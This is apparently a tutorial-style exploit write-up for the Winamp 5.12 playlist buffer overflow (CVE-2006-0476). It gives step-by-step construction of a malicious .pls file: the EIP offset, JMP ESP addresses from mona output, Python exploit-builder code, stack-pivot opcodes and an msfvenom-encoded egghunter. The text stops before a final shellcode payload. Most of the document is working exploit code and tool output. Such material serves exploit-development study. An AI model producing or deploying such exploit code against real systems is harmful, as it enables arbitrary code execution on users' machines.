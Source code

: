 # Winamp 5.12 Playlist Buffer Overflow
References: 
- https://www.exploit-db.com/exploits/1458
- https://packetstormsecurity.com/files/152706/Winamp-5.12-Playlist-.pls-Buffer-Overflow.html
- https://www.cvedetails.com/cve/CVE-2006-0476/ 
- https://resources.infosecinstitute.com/topic/buffer-overflow-vulnserver/#gref
- https://armoredcode.com/blog/a-closer-look-to-msf-egghunter/
  
*Buffer overflow in Nullsoft Winamp 5.12 allows remote attackers to execute arbitrary code via a playlist (pls) file with a long file name (File1 field).*

## Exploitation

### 1. Control EIP

PLS playlist structure as is follows:
```
[playlist]
File1=\Program Files\Winamp\demo.mp3 
Title1=DJ Mike Llama - Llama Whippin' Intro
Length1=5
NumberOfEntries=1
Version=2

```
The filename has to be long enough to overwrite the address of EIP. By sending increasingly longer inputs in as the filename, the length needed to control EIP is 1022, with the next 4 bytes on top of that being executed as the EIP address. 

![UI Screenshot](img/01.png)  

### 2. Find JMP ESP instruction
On the crash, ESP points to buffer space directly after EIP. Find a JMP ESP instruction:
```
0BADF00D   [+] Command used:
0BADF00D   !mona jmp -r esp

           ---------- Mona command started on 2020-12-22 16:29:07 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 8 modules
0BADF00D       - Querying module jnetlib.w5s
0BADF00D       - Querying module in_wm.dll
0BADF00D       - Querying module in_nsv.dll
0BADF00D       - Querying module winamp.exe
0BADF00D       - Querying module gen_ff.dll
0BADF00D       - Querying module gen_ml.dll
0BADF00D       - Querying module aacPlusDecoder.w5s
0BADF00D       - Querying module in_mp3.dll
0BADF00D       - Search complete, processing results
0BADF00D   [+] Preparing output file 'jmp.txt'
0BADF00D       - (Re)setting logfile jmp.txt
0BADF00D   [+] Writing results to jmp.txt
0BADF00D       - Number of pointers of type 'jmp esp' : 2
0BADF00D       - Number of pointers of type 'call esp' : 2
0BADF00D       - Number of pointers of type 'push esp # ret ' : 20
0BADF00D       - Number of pointers of type 'push esp # ret 0x04' : 1
0BADF00D   [+] Results :
1A113749     0x1a113749 : jmp esp | ascii {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A1E8C15     0x1a1e8c15 : jmp esp |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1073614F     0x1073614f : call esp | ascii {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
0202D961     0x0202d961 : call esp |  {PAGE_EXECUTE_READ} [in_mp3.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_mp3.dll)
66601B1D     0x66601b1d : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660480C     0x6660480c : push esp # ret  | ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
66604E65     0x66604e65 : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660505E     0x6660505e : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
666068A3     0x666068a3 : push esp # ret  |  {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660699A     0x6660699a : push esp # ret  |  {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660E2D1     0x6660e2d1 : push esp # ret  |  {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
1501BAF6     0x1501baf6 : push esp # ret  |  {PAGE_EXECUTE_READ} [in_nsv.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_nsv.dll)
1A10539F     0x1a10539f : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A17B88F     0x1a17b88f : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A18C3D2     0x1a18c3d2 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A1CE776     0x1a1ce776 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A1F3067     0x1a1f3067 : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1072D056     0x1072d056 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
1072D0A4     0x1072d0a4 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
1072D0B7     0x1072d0b7 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
0BADF00D   ... Please wait while I'm processing all remaining results and writing everything to file...
0BADF00D   [+] Done. Only the first 20 pointers are shown here. For more pointers, open jmp.txt...
0BADF00D       Found a total of 25 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:07:22.697000
```
Of these, I can use the instruction at address: `0x1a1e8c15`.  
Exploit is now:
`[PADDING][JMP ESP][INTERRUPT]`
The interrupts are there to stop the program before it crashes again. Python exploit currently looks like:
```python
#!/usr/bin/env python

from struct import pack

plsPart1 = b'[playlist]\r\nFile1=\\\\'
plsFile1 = b'A' * 1022 + pack('<I', 0x1a1e8c15) + b'\xCC' * 4
plsPart2 = b'\r\nTitle1=LLamma Whippin\r\nLength1=5\r\nNumberOfEntries=1\r\nVersion=2\r\n'

with open('exp.pls', 'wb') as plsFile:
	plsFile.write(plsPart1 + plsFile1 + plsPart2)

```

![UI Screenshot](img/02.png)  

When running the resulting playlist file, the interrupts get hit, so we are now jumping to ESP and executing there, but this has only a small amount of space, only 11 bytes to the next null byte, so any useful shellcode payload is not going to fit. So from here another jump needs to happen back into the original filename buffer. This can be done first by decreasing the ESP pointer back onto the buffer and then jumping again.
```bash
┌──(kali㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
└─$ ./nasm_shell.rb 
nasm > sub esp, 58
00000000  83EC3A            sub esp,byte +0x3a
nasm > jmp esp
00000000  FFE4              jmp esp
```
With the space I have, I can subtract 58 from ESP twice and then jump there. Modifications to exploit:
```python
subesp = b'\x83\xEC\x3A'
jmpesp = b'\xFF\xE4'

plsPart1 = b'[playlist]\r\nFile1=\\\\'
plsFile1 = b'A' * (906+4) + b'\xCC' * (116-4) + pack('<I', 0x1a1e8c15) + (subesp * 2) + jmpesp
plsPart2 = b'\r\nTitle1=LLamma Whippin\r\nLength1=5\r\nNumberOfEntries=1\r\nVersion=2\r\n'
```
I put some interrupts where the execution should jump to. Another interrupt back in the file buffer:

![UI Screenshot](img/03.png)  

Still not enough stack space for a payload, so from here use egghunter to jump again to a bigger area. Firstly generate some egghunter shellcode, needs to be passed to msfvenom to encode out badchars.
```bash
┌──(kali㉿kali)-[~]
└─$ msf-egghunter --arch x86 --platform windows -e JACK -f raw | msfvenom -p - --arch x86 --platform windows -e x86/alpha_mixed -f python --var-name egg > egghunt_encoded.py
Attempting to read payload from STDIN...

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 126 (iteration=0)
x86/alpha_mixed chosen with final size 126
Payload size: 126 bytes
Final size of python file: 625 bytes
```

